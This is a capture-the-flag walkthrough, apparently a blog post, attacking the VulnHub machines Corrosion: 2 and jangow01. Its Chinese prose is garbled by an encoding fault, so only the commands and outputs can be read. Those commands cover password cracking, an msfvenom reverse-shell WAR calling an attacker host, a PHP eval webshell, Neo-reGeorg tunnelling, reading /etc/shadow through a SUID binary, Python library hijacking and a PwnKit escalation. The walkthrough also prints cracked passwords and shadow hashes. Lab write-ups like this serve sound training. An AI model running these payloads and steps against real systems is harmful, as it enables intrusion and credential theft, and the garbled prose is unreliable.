# vulnhub

## Corrosion: 2

Nmap 扫æ IP 地å€ã€‚

```
msf6 > db_nmap -sP -PR -T 5 -n 10.10.10.0/24
[*] Nmap: Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-02 07:30 UTC
[*] Nmap: Nmap scan report for 10.10.10.1
[*] Nmap: Host is up (0.00047s latency).
[*] Nmap: MAC Address: 00:50:56:C0:00:0A (VMware)
[*] Nmap: Nmap scan report for 10.10.10.103
[*] Nmap: Host is up (0.00016s latency).
[*] Nmap: MAC Address: 00:0C:29:25:CD:30 (VMware)
[*] Nmap: Nmap scan report for 10.10.10.200
[*] Nmap: Host is up (0.000082s latency).
[*] Nmap: MAC Address: 00:50:56:FA:67:12 (VMware)
[*] Nmap: Nmap scan report for 10.10.10.10
[*] Nmap: Host is up.
[*] Nmap: Nmap done: 256 IP addresses (4 hosts up) scanned in 1.53 seconds
```

```
address       mac                name  os_name  os_flavor  os_sp  purpose  info  comments
-------       ---                ----  -------  ---------  -----  -------  ----  --------
10.10.10.1    00:50:56:C0:00:0A
10.10.10.10
10.10.10.103  00:0C:29:25:CD:30
10.10.10.200  00:50:56:FA:67:12
```

注：此处通过æ’除法确定 10.10.10.103 是é¶æœºï¼ˆå› ä¸ºå…¶ä»–机器全是我的）。


Nmap 扫æ IP çš„ TCP 端å£ä¿¡æ¯å’Œæ“作系统信æ¯ã€‚

```
msf6 > db_nmap -sS -sV -p- -r -n -T 5 -O 10.10.10.103
[*] Nmap: Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-02 07:35 UTC
[*] Nmap: Nmap scan report for 10.10.10.103
[*] Nmap: Host is up (0.00040s latency).
[*] Nmap: Not shown: 65532 closed tcp ports (reset)
[*] Nmap: PORT     STATE SERVICE VERSION
[*] Nmap: 22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
[*] Nmap: 80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
[*] Nmap: 8080/tcp open  http    Apache Tomcat 9.0.53
[*] Nmap: MAC Address: 00:0C:29:25:CD:30 (VMware)
[*] Nmap: Device type: general purpose|router
[*] Nmap: Running: Linux 4.X|5.X, MikroTik RouterOS 7.X
[*] Nmap: OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
[*] Nmap: OS details: Linux 4.15 - 5.19, OpenWrt 21.02 (Linux 5.4), MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
[*] Nmap: Network Distance: 1 hop
[*] Nmap: Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
[*] Nmap: OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 9.28 seconds
```

```
host          port  proto  name  state  info
----          ----  -----  ----  -----  ----
10.10.10.103  22    tcp    ssh   open   OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 Ubuntu Linux; protocol 2.0
10.10.10.103  80    tcp    http  open   Apache httpd 2.4.41 (Ubuntu)
10.10.10.103  8080  tcp    http  open   Apache Tomcat 9.0.53
```

注：存在两个网站，通过æµè§ˆå™¨è®¿é—®ï¼Œæœªå‘ç°æœ‰ç”¨çš„ä¿¡æ¯ã€‚


å°è¯•ä½¿ç”¨ FFUF 扫æ 80 端å£çš„网页

```
ffuf -u http://10.10.10.103/indexFUZZ -w web-extensions-big.txt

.html                   [Status: 200, Size: 10918, Words: 3499, Lines: 376, Duration: 5ms]
.html                   [Status: 200, Size: 10918, Words: 3499, Lines: 376, Duration: 2ms]
:: Progress: [66886/66886] :: Job [1/1] :: 18181 req/sec :: Duration: [0:00:02] :: Errors: 0 ::
```

```
ffuf -u http://10.10.10.103/FUZZ -w raft-medium-files-lowercase.txt

index.html              [Status: 200, Size: 10918, Words: 3499, Lines: 376, Duration: 2ms]
.htaccess               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 0ms]
.                       [Status: 200, Size: 10918, Words: 3499, Lines: 376, Duration: 1ms]
.html                   [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 1ms]
.htpasswd               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 1ms]
.htm                    [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 0ms]
.htpasswds              [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 0ms]
.htgroup                [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 1ms]
.htaccess.bak           [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 0ms]
.htuser                 [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 1ms]
.ht                     [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 1ms]
.htc                    [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 1ms]
:: Progress: [16244/16244] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::
```

注：没有å‘ç°ä»»ä½•æœ‰ç”¨çš„ä¿¡æ¯ã€‚以 . 开头的 .xxx 403 ä¿¡æ¯æ˜¯è¯¯æŠ¥ã€‚


å°è¯•ä½¿ç”¨ FFUF 扫æ 8080 端å£çš„网页

```
ffuf -u http://10.10.10.103:8080/indexFUZZ -w web-extensions-big.txt
.jsp                    [Status: 200, Size: 11136, Words: 4198, Lines: 199, Duration: 37ms]
.jsp                    [Status: 200, Size: 11136, Words: 4198, Lines: 199, Duration: 14ms]
:: Progress: [66886/66886] :: Job [1/1] :: 13333 req/sec :: Duration: [0:00:13] :: Errors: 0 ::
```

```
ffuf -u http://10.10.10.103:8080/FUZZ -w raft-large-files-lowercase.txt

favicon.ico             [Status: 200, Size: 21630, Words: 19, Lines: 22, Duration: 22ms]
.                       [Status: 200, Size: 11136, Words: 4198, Lines: 199, Duration: 6ms]
index.jsp               [Status: 200, Size: 11136, Words: 4198, Lines: 199, Duration: 3ms]
readme.txt              [Status: 200, Size: 153, Words: 28, Lines: 3, Duration: 7ms]
backup.zip              [Status: 200, Size: 33723, Words: 146, Lines: 121, Duration: 7ms]
:: Progress: [35325/35325] :: Job [1/1] :: 12500 req/sec :: Duration: [0:00:05] :: Errors: 0 ::
```

å‘ç° backup.zip 文件，å¯èƒ½æ˜¯ç®¡ç†å‘˜åœ¨å¤‡ä»½æ—¶å¿½è§†å¤§æ„忘记删除了，通过 HTTP æœåŠ¡æš´éœ²å‡ºæ¥äº†ã€‚


使用 words å­—å…¸é…åˆ .jsp,.zip,.txt 进行扫æ。

```
ffuf -u http://10.10.10.103:8080/FUZZ -w raft-medium-words-lowercase.txt -e .jsp,.zip,.txt

index.jsp               [Status: 200, Size: 11136, Words: 4198, Lines: 199, Duration: 5ms]
docs                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 3ms]
backup.zip              [Status: 200, Size: 33723, Words: 146, Lines: 121, Duration: 4ms]
manager                 [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 1ms]
.                       [Status: 200, Size: 11136, Words: 4198, Lines: 199, Duration: 3ms]
readme.txt              [Status: 200, Size: 153, Words: 28, Lines: 3, Duration: 1ms]
examples                [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 3ms]
:: Progress: [225172/225172] :: Job [1/1] :: 1818 req/sec :: Duration: [0:00:39] :: Errors: 0 ::
```


端å£æ‰«ææ—¶å‘ç° 8080 是 tomcat æœåŠ¡å™¨ï¼Œmanager 是 tomcat æœåŠ¡å™¨çš„ web 管ç†é¡µé¢ã€‚

访问页é¢éœ€è¦æ供账å·å¯†ç ã€‚




下载å‹ç¼©åŒ…，看看其中是å¦å­˜åœ¨å¯ç”¨ä¿¡æ¯ã€‚

```
root@xiaoshae:/opt# wget http://10.10.10.103:8080/backup.zip
--2025-03-02 18:30:07--  http://10.10.10.103:8080/backup.zip
Connecting to 10.10.10.103:8080... connected.
HTTP request sent, awaiting response... 200 
Length: 33723 (33K) [application/zip]
Saving to: ‘backup.zip’

backup.zip                               100%[===============================================================================>]  32.93K  --.-KB/s    in 0s      

2025-03-02 18:30:07 (892 MB/s) - ‘backup.zip’ saved [33723/33723]
```


å°è¯•è§£å‹ï¼Œå‘ç°éœ€è¦è´¦å·å¯†ç 

```
unzip backup.zip 
Archive:  backup.zip
[backup.zip] catalina.policy password: root
```


使用 zip2john æå– hash 

```
zip2john backup.zip > hash 

ver 2.0 efh 5455 efh 7875 backup.zip/catalina.policy PKZIP Encr: TS_chk, cmplen=2911, decmplen=13052, crc=AD0C6FDB ts=6920 cs=6920 type=8
ver 2.0 efh 5455 efh 7875 backup.zip/context.xml PKZIP Encr: TS_chk, cmplen=721, decmplen=1400, crc=59B9F4E7 ts=6920 cs=6920 type=8
ver 2.0 efh 5455 efh 7875 backup.zip/catalina.properties PKZIP Encr: TS_chk, cmplen=2210, decmplen=7276, crc=1CD3C095 ts=6920 cs=6920 type=8
ver 2.0 efh 5455 efh 7875 backup.zip/jaspic-providers.xml PKZIP Encr: TS_chk, cmplen=626, decmplen=1149, crc=748A87A6 ts=6920 cs=6920 type=8
ver 2.0 efh 5455 efh 7875 backup.zip/jaspic-providers.xsd PKZIP Encr: TS_chk, cmplen=862, decmplen=2313, crc=3B44D150 ts=6920 cs=6920 type=8
ver 2.0 efh 5455 efh 7875 backup.zip/logging.properties PKZIP Encr: TS_chk, cmplen=1076, decmplen=4144, crc=1D6C26F7 ts=6920 cs=6920 type=8
ver 2.0 efh 5455 efh 7875 backup.zip/server.xml PKZIP Encr: TS_chk, cmplen=2609, decmplen=7589, crc=F91AC0C0 ts=6920 cs=6920 type=8
ver 2.0 efh 5455 efh 7875 backup.zip/tomcat-users.xml PKZIP Encr: TS_chk, cmplen=1167, decmplen=2972, crc=BDCB08B9 ts=B0E3 cs=b0e3 type=8
ver 2.0 efh 5455 efh 7875 backup.zip/tomcat-users.xsd PKZIP Encr: TS_chk, cmplen=858, decmplen=2558, crc=E8F588C2 ts=6920 cs=6920 type=8
ver 2.0 efh 5455 efh 7875 backup.zip/web.xml PKZIP Encr: TS_chk, cmplen=18917, decmplen=172359, crc=B8AF6070 ts=6920 cs=6920 type=8
NOTE: It is assumed that all files in each archive have the same password.
If that is not the case, the hash may be uncrackable. To avoid this, use
option -o to pick a file at a time.
```


å°è¯•çˆ†ç ´å¯†ç 

```
john --wordlist=rockyou.txt hash 

Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 8 OpenMP threads
Note: Passwords longer than 21 [worst case UTF-8] to 63 [ASCII] rejected
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
@administrator_hi5 (backup.zip)     
1g 0:00:00:01 DONE (2025-03-02 18:32) 0.9901g/s 11387Kp/s 11387Kc/s 11387KC/s @lexus1s..9Spruce
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

密ç ä¸ºï¼š@administrator_hi5


解å‹å‹ç¼©åŒ…

```
unzip backup.zip

Archive:  backup.zip
[backup.zip] catalina.policy password: 
  inflating: catalina.policy         
  inflating: context.xml             
  inflating: catalina.properties     
  inflating: jaspic-providers.xml    
  inflating: jaspic-providers.xsd    
  inflating: logging.properties      
  inflating: server.xml              
  inflating: tomcat-users.xml        
  inflating: tomcat-users.xsd        
  inflating: web.xml
```


查找文件信æ¯ï¼Œåœ¨ tomcat-users.xml 文件中å‘ç° tomcat manager 的密ç ä¸º **melehifokivai**。




æˆåŠŸç™»å½• manager 页é¢ï¼Œå‘ç°å¯ä»¥éƒ¨ç½² war 应用程åº




使用 msfvenom 生æˆé€‚ç”¨äº war çš„åå‘ shell

```
msfvenom -p java/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=8080 -f war -o shell.war

Payload size: 6210 bytes
Final size of war file: 6210 bytes
Saved as: shell.war
```


使用 msfconsole 监å¬

```
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp

msf6 exploit(multi/handler) > set PAYLOAD java/meterpreter/reverse_tcp 
PAYLOAD => java/meterpreter/reverse_tcp

msf6 exploit(multi/handler) > set LHOST 10.10.10.10
LHOST => 10.10.10.10

msf6 exploit(multi/handler) > set LPORT 8080
LPORT => 8080

msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.10.10.10:8080 
```


在 manager 中部署 shell.war 应用程åº




部署æˆåŠŸå访问页é¢ï¼ˆé¡µé¢ä¸ºç©ºæ˜¯æ­£å¸¸æƒ…况）






åå‘ shell è¿æ¥æˆåŠŸ

```
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.10.10.10:8080 
[*] Sending stage (58073 bytes) to 10.10.10.103
[*] Meterpreter session 1 opened (10.10.10.10:8080 -> 10.10.10.103:58936) at 2025-03-02 10:41:02 +0000

meterpreter > background 
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > 
```


æå‡ä¼šè¯

```
msf6 exploit(multi/handler) > sessions -u 1 
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]
[!] SESSION may not be compatible with this module:
[!]  * missing Meterpreter features: stdapi_railgun_api, stdapi_sys_process_kill
[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.10.10.10:4433 
[*] Command stager progress: 100.00% (773/773 bytes)

[*] Sending stage (1017704 bytes) to 10.10.10.103
msf6 exploit(multi/handler) > [*] Meterpreter session 2 opened (10.10.10.10:4433 -> 10.10.10.103:34140) at 2025-03-02 10:42:20 +0000
[*] Stopping exploit/multi/handler

msf6 exploit(multi/handler) > 
```


通过 Meterpreter 收集信æ¯

```
msf6 exploit(multi/handler) > sessions -i 2 
[*] Starting interaction with 2...

meterpreter > sysinfo 
Computer     : 10.10.10.103
OS           : Ubuntu 20.04 (Linux 5.11.0-34-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > 
```


在 /home 路径下存在两个用户

```
tomcat@corrosion:/home$ ls
jaye
randy
```


å°è¯•æ’库攻击，使用 manager 的密ç ï¼ˆ**melehifokivai**ï¼‰ï¼Œå» ssh 登录这两个用户，å‘ç° jaye 用户密ç å’Œ manager 密ç ä¸€è‡´ã€‚

登录 jaye 账户åå‘ç°å…¶å­˜åœ¨ä¸€ä¸ª **SUID å’Œ SGID** çš„å¯æ‰§è¡Œæ–‡ä»¶ã€‚

- 当用户执行该文件时，进程的 **有效用户 ID** 会临时å˜ä¸ºæ–‡ä»¶æ‰€æœ‰è€…（`root`）。
- 进程的 **有效组 ID** 会临时å˜ä¸ºæ–‡ä»¶æ‰€å±ç»„（`root`）。

```
jaye@corrosion:~/Files$ file look
look: setuid, setgid executable, regular file, no read permission
```


`look` 是一个命令行工具，通常用äºåœ¨ **å·²æ’åºçš„文件** 中查找以特定字符串开头的行。它的行为类似äºç®€åŒ–çš„ `grep`，但专为快速查找å‰ç¼€è®¾è®¡ã€‚

- `[-bdf]`：å¯é€‰å‚数（选项）：
    - `-b`：在查找时忽略字符串å‰çš„空白（如空格ã€åˆ¶è¡¨ç¬¦ï¼‰ã€‚
    - `-d`：仅比较字æ¯ã€æ•°å­—和空格（忽略其他字符，如标点符å·ï¼‰ã€‚
    - `-f`：忽略大å°å†™ï¼ˆå¦‚å°† "A" å’Œ "a" 视为相åŒï¼‰ã€‚
- `[-t char]`：指定终止符（`char` 是一个字符），仅匹é…到该字符å‰çš„字符串。
- `string`：è¦æŸ¥æ‰¾çš„ **å‰ç¼€å­—符串**（必需å‚数）。
- `[file ...]`：è¦æœç´¢çš„文件列表（å¯é€‰å‚数，默认å¯èƒ½ä½¿ç”¨ç³»ç»Ÿå­—典文件）。


当普通用户 jaye 执行 look 命令是，look 命令会以 root æƒé™è¿è¡Œï¼Œä½¿ç”¨ look è¯»å– /etc/shadow 文件

```
jaye@corrosion:~/Files$ ./look '' /etc/shadow 
root:$6$fHvHhNo5DWsYxgt0$.3upyGTbu9RjpoCkHfW.1F9mq5dxjwcqeZl0KnwEr0vXXzi7Tld2lAeYeIio/9BFPjUCyaBeLgVH1yK.5OR57.:18888:0:99999:7:::
...
randy:$6$bQ8rY/73PoUA4lFX$i/aKxdkuh5hF8D78k50BZ4eInDWklwQgmmpakv/gsuzTodngjB340R1wXQ8qWhY2cyMwi.61HJ36qXGvFHJGY/:18888:0:99999:7:::
...
tomcat:$6$XD2Bs.tL01.5OT2b$.uXUR3ysfujHGaz1YKj1l9XUOMhHcKDPXYLTexsWbDWqIO9ML40CQZPI04ebbYzVNBFmgv3Mpd3.8znPfrBNC1:18888:0:99999:7:::
...
jaye:$6$Chqrqtd4U/B1J3gV$YjeAWKM.usyi/JxpfwYA6ybW/szqkiI1kerC4/JJNMpDUYKavQbnZeUh4WL/fB/4vrzX0LvKVWu60dq4SOQZB0:18887:0:99999:7:::
```


使用 john æˆåŠŸçˆ†ç ´ randy 密ç 

```
john — wordlist=/usr/share/wordlists/rockyou.txt hash.txt
...
07051986randy
```


切æ¢åˆ° randy 用户

```
jaye@corrosion:/home/randy$ su randy 
Password: 
randy@corrosion:~$ 
```


查看 randy çš„ sudo æƒé™ï¼Œè¾“出显示 Randy å¯ä»¥ä½¿ç”¨æå‡çš„æƒé™è¿è¡Œ Python 脚本。

```
randy@corrosion:~$ sudo -l 
[sudo] password for randy: 
Matching Defaults entries for randy on corrosion:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User randy may run the following commands on corrosion:
    (root) PASSWD: /usr/bin/python3.8 /home/randy/randombase64.py
```


randombase64.py ä»… root 用户å¯ä»¥ä¿®æ”¹ï¼ŒæŸ¥çœ‹è¿™ä¸ª python 脚本å‘ç°å…¶å¯¼å…¥ä¸€ä¸ª base64 库文件。

```
import base64

message = input("Enter your string: ")
message_bytes = message.encode('ascii')
base64_bytes = base64.b64encode(message_bytes)
base64_message = base64_bytes.decode('ascii')

print(base64_message)
randy@corrosion:~$ file randombase64.py 
randombase64.py: ASCII text
```


基础的 Python 库劫æŒæœ‰ **PYTHONPATHç¯å¢ƒå˜é‡ã€ç›´æ¥ä¿®æ”¹åº“文件（具有写æƒé™ï¼‰**。

因为 sudo 命令的安全设置，**会é‡ç½®ç¯å¢ƒå˜é‡**，且无法设置ç¯å¢ƒå˜é‡ï¼Œæ‰€ä»¥ä¸å­˜åœ¨**PYTHONPATHç¯å¢ƒå˜é‡**。

```
randy@corrosion:/tmp/test$ sudo PYTHONPATH=/tmp/test/ /usr/bin/python3.8 /home/randy/randombase64.py 

sudo: sorry, you are not allowed to set the following environment variables: PYTHONPATH
```


查看 Python æœç´¢åº“的路径

```
>>> import sys
>>> print("\n".join(sys.path))

/usr/lib/python38.zip
/usr/lib/python3.8
/usr/lib/python3.8/lib-dynload
/usr/local/lib/python3.8/dist-packages
/usr/lib/python3/dist-packages
```


在系统上查找所有 base64.py 文件

```
locate base64.py

/home/randy/randombase64.py
/snap/core18/2128/usr/lib/python3.6/base64.py
/snap/gnome-3-34-1804/72/usr/lib/python2.7/base64.py
/snap/gnome-3-34-1804/72/usr/lib/python3.6/base64.py
/usr/lib/python3.8/base64.py
```


查看文件的æƒé™ï¼ˆå…·æœ‰å†™å…¥æƒé™ï¼‰

```
-rwxrwxrwx 1 root root 20420 Mar  2 16:52 /usr/lib/python3.8/base64.py
```


修改 base64.py 文件




sudo 执行脚本，è·å¾— root æƒé™ã€‚

```
sudo /usr/bin/python3.8 /home/randy/randombase64.py 

[sudo] password for randy: 
root@corrosion:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
```


## jangow01


Nmap 扫æ IP 地å€

```
nmap -sP -PR -n -T 5 10.10.10.0/24

...
MAC Address: 00:50:56:C0:00:0A (VMware)
Nmap scan report for 10.10.10.100
```


Nmap 扫æ TCP 端å£ï¼Œå‘ç°ä¸€ä¸ª HTTP 站点和 VSFTPD 站点。

```
db_nmap -sV -n -p- -r -T 5 -O 10.10.10.100

host          port  proto  name  state  info
----          ----  -----  ----  -----  ----
10.10.10.100  21    tcp    ftp   open   vsftpd 3.0.3
10.10.10.100  80    tcp    http  open   Apache httpd 2.4.18
```


使用 ffuf 高频文件字典爆破网站路径，å‘ç° .backup 文件。

```
ffuf -u http://10.10.10.100/FUZZ -w raft-large-files-lowercase.txt

...
.backup                 [Status: 200, Size: 336, Words: 30, Lines: 13, Duration: 10ms]
...
:: Progress: [35325/35325] :: Job [1/1] :: 74 req/sec :: Duration: [0:00:05] :: Errors: 0 ::
```


使用 wget 下载 .backup 文件，å‘ç°é‡Œé¢ä¸ºè¿æ¥æ•°æ®åº“çš„è´¦å·å’Œå¯†ç ã€‚

```
wget http://10.10.10.100/.backup -O backup

# 文件内容
$servername = "localhost";
$database = "jangow01";
$username = "jangow01";
$password = "abygurl69";
// Create connection
$conn = mysqli_connect($servername, $username, $password, $database);
// Check connection
if (!$conn) {
    die("Connection failed: " . mysqli_connect_error());
}
echo "Connected successfully";
mysqli_close($conn);
```


å°è¯•ä½¿ç”¨æ”¹è´¦å·å¯†ç ç™»å½• ftp æœåŠ¡å™¨ï¼Œç™»å½•æˆåŠŸï¼Œå¯èƒ½æ˜¯ç³»ç»Ÿç”¨æˆ·ã€‚




使用æµè§ˆå™¨è®¿é—®ç½‘站，å‘ç°ä¸€ä¸ªå‚æ•°å¯ä»¥æ‰§è¡Œå‘½ä»¤ï¼Œä»¥ä¸‹æ˜¯å‘ç°è¿‡ç¨‹ï¼š









对一å¥è¯æœ¨é©¬è¿›è¡Œ base64 ç¼–ç 

```
<?php eval($_POST['CMD']); ?>
```

```
PD9waHAgZXZhbCgkX1BPU1RbJ0NNRCddKTsgPz4=
```


使用 yakit 上传一å¥è¯æœ¨é©¬




使用中国èšå‰‘è¿æ¥æˆåŠŸ




简å•æµ‹è¯•å‘ç°é¶æœºå¯¹å…¥ç«™å’Œå‡ºç«™æµé‡åšäº†é™åˆ¶




使用 netstat -tunpl å‘ç°é¶æœºä¸­å¼€å¯äº† ssh æœåŠ¡ï¼Œç›‘å¬äº† 22 端å£ï¼Œä½†æ˜¯é…置了防ç«å¢™ç¦æ­¢ 22 端å£å…¥ç«™ã€‚




使用 Neo-reGeorg ç”Ÿæˆ php 文件，上传到网站中。

```
neoreg generate -k 123

    [+] Create neoreg server files:
       => neoreg_servers/tunnel.cs
       => neoreg_servers/tunnel.go
       => neoreg_servers/tunnel.ashx
       => neoreg_servers/tunnel.aspx
       => neoreg_servers/tunnel.php
       => neoreg_servers/tunnel.jsp
       => neoreg_servers/tunnel.jspx
```




使用 Neo-reGeorg 将本地 2222 端å£è½¬å‘到远程主机 22 端å£ã€‚

```
neoreg -k 123 -u http://10.10.10.100/site/tunnel.php --php --read-interval 1 --write-interval 1 -l 0.0.0.0 -p 2222 -t 127.0.0.1:22

+------------------------------------------------------------------------+
  Log Level set to [ERROR]
  Starting Forward [0.0.0.0:2222] => [127.0.0.1:22]
  Tunnel at:
    http://10.10.10.100/site/tunnel.php
+------------------------------------------------------------------------+
```


使用泄露的账å·å¯†ç ï¼Œé€šè¿‡ 127.0.0.1:2222 进行 ssh 登录。

```
ssh jangow01@127.0.0.1 -p 2222

jangow01@127.0.0.1's password: 
Welcome to Ubuntu 16.04.1 LTS (GNU/Linux 4.4.0-31-generic x86_64)
...
jangow01@jangow01:~$ 
```


如æœæƒ³è¦ msfconsole æ¥ç®¡ç³»ç»Ÿï¼Œå¿…须在远程端å£è½¬å‘，将é¶æœºçš„æµé‡è½¬å‘到攻击机。

Neo-reGeorg å¯ä»¥å¾ˆå¥½çš„进行本地端å£è½¬å‘，但ä¸å¤ªé€‚åˆè¿›è¡Œè¿œç¨‹ç«¯å£è½¬å‘，ä¸è¿‡å½“å‰å·²ç»å¯ä»¥è¿æ¥åˆ°é¶æœºçš„ ssh æœåŠ¡ï¼Œå¯ä»¥ä½¿ç”¨ ssh 自带的远程端å£è½¬å‘。

```
ssh jangow01@127.0.0.1 -p 2222 -R 4444:127.0.0.1:4444 -R 5555:127.0.0.1:5555 -Nf
```


在é¶æœºä¸Šæ‰§è¡Œ netstat -tunpl 命令，å‘ç°å·²ç»ç›‘å¬ 4444 å’Œ 5555 端å£ã€‚

```
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name	
tcp        0      0 127.0.0.1:5555          0.0.0.0:*               LISTEN       -               
tcp        0      0 127.0.0.1:4444          0.0.0.0:*               LISTEN       -               
```


在本机 nc -l -p 4444 监å¬ç«¯å£ï¼Œé¶æœºè¿æ¥ nc 127.0.0.1 4444 端å£ï¼Œæ•°æ®è½¬å‘æˆåŠŸã€‚

```
jangow01@jangow01:~$ nc 127.0.0.1 4444
hello

root@localhost:~# nc -l -p 4444
hello
```


msfconsole ç”Ÿæˆ payload 文件（LHOST 127.0.0.1 LPORT 4444），上传到é¶æœºã€‚

```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f elf -o elf 

[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 130 bytes
Final size of elf file: 250 bytes
Saved as: elf
```




msfconsole 监å¬ç«¯å£

```
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp

msf6 exploit(multi/handler) > set PAYLOAD linux/x64/meterpreter/reverse_tcp 
PAYLOAD => linux/x64/meterpreter/reverse_tcp

msf6 exploit(multi/handler) > set LHOST 127.0.0.1 
LHOST => 127.0.0.1

msf6 exploit(multi/handler) > set LPORT 4444
LPORT => 4444

msf6 exploit(multi/handler) > run
[!] You are binding to a loopback address by setting LHOST to 127.0.0.1. Did you want ReverseListenerBindAddress?
[*] Started reverse TCP handler on 127.0.0.1:4444 
```


在é¶æœºä¸Šè®¾ç½® elf å¯æ‰§è¡Œæƒé™ï¼Œå¹¶æ‰§è¡Œã€‚




msfconsole æˆåŠŸä¸Šçº¿

```
[*] Started reverse TCP handler on 127.0.0.1:4444 
[*] Sending stage (3045380 bytes) to 127.0.0.1
[*] Meterpreter session 1 opened (127.0.0.1:4444 -> 127.0.0.1:40612) at 2025-03-04 10:16:55 +0000

meterpreter > sysinfo 
Computer     : 10.10.10.100
OS           : Ubuntu 16.04 (Linux 4.4.0-31-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```


使用 post/multi/recon/local_exploit_suggester 扫æ本地ææƒæ¼æ´

```
meterpreter > run post/multi/recon/local_exploit_suggester
[*] 127.0.0.1 - Collecting local exploits for x64/linux...
[*] 127.0.0.1 - 203 exploit checks are being tried...
[+] 127.0.0.1 - exploit/linux/local/bpf_sign_extension_priv_esc: The target appears to be vulnerable.
[+] 127.0.0.1 - exploit/linux/local/cve_2021_3493_overlayfs: The target appears to be vulnerable.
[+] 127.0.0.1 - exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec: The target is vulnerable.
[+] 127.0.0.1 - exploit/linux/local/cve_2022_0995_watch_queue: The target appears to be vulnerable.
[+] 127.0.0.1 - exploit/linux/local/docker_cgroup_escape: The target is vulnerable. IF host OS is Ubuntu, kernel version 4.4.0-31-generic is vulnerable
[+] 127.0.0.1 - exploit/linux/local/glibc_realpath_priv_esc: The target appears to be vulnerable.
[+] 127.0.0.1 - exploit/linux/local/ntfs3g_priv_esc: The target appears to be vulnerable.
[+] 127.0.0.1 - exploit/linux/local/pkexec: The service is running, but could not be validated.
[+] 127.0.0.1 - exploit/linux/local/ptrace_traceme_pkexec_helper: The target appears to be vulnerable.
[+] 127.0.0.1 - exploit/linux/local/su_login: The target appears to be vulnerable.
[+] 127.0.0.1 - exploit/linux/local/sudoedit_bypass_priv_esc: The target appears to be vulnerable. Sudo 1.8.16.pre.0ubuntu1.1 is vulnerable, but unable to determine editable file. OS can NOT be exploited by this module
[*] Running check method for exploit 73 / 73
[*] 127.0.0.1 - Valid modules for session 1:
============================

 #   Name                                                                Potentially Vulnerable?  Check Result
 -   ----                                                                -----------------------  ------------
 1   exploit/linux/local/bpf_sign_extension_priv_esc                     Yes                      The target appears to be vulnerable.
 2   exploit/linux/local/cve_2021_3493_overlayfs                         Yes                      The target appears to be vulnerable.
 3   exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec                 Yes                      The target is vulnerable.
 4   exploit/linux/local/cve_2022_0995_watch_queue                       Yes                      The target appears to be vulnerable.
 5   exploit/linux/local/docker_cgroup_escape                            Yes                      The target is vulnerable. IF host OS is Ubuntu, kernel version 4.4.0-31-generic is vulnerable
 6   exploit/linux/local/glibc_realpath_priv_esc                         Yes                      The target appears to be vulnerable.
 7   exploit/linux/local/ntfs3g_priv_esc                                 Yes                      The target appears to be vulnerable.
 8   exploit/linux/local/pkexec                                          Yes                      The service is running, but could not be validated.
 9   exploit/linux/local/ptrace_traceme_pkexec_helper                    Yes                      The target appears to be vulnerable.
 10  exploit/linux/local/su_login                                        Yes                      The target appears to be vulnerable.
 11  exploit/linux/local/sudoedit_bypass_priv_esc                        Yes                      The target appears to be vulnerable. Sudo 1.8.16.pre.0ubuntu1.1 is vulnerable, but unable to determine editable file. OS can NOT be exploited by this module
...
```


é€ä¸ªå°è¯•æ‰«æ到的æ¼æ´ï¼ŒæˆåŠŸæå‡æƒé™åˆ° root

```
msf6 exploit(multi/handler) > use exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp

msf6 exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > set SESSION 1 
SESSION => 1

msf6 exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > set LHOST 127.0.0.1 
LHOST => 127.0.0.1

